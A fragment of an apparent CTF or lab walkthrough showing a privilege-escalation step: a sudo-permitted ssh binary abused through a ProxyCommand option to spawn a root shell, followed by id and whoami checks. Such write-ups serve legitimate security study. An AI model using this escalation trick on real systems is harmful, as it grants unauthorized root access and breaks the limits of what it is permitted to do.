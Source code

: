 ![](./IMG/55.png)

- Execute the following command to escalate 
```
sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
![](./IMG/56.png)

- Check current user 
```
id
whoami
```
![](./IMG/57.png)
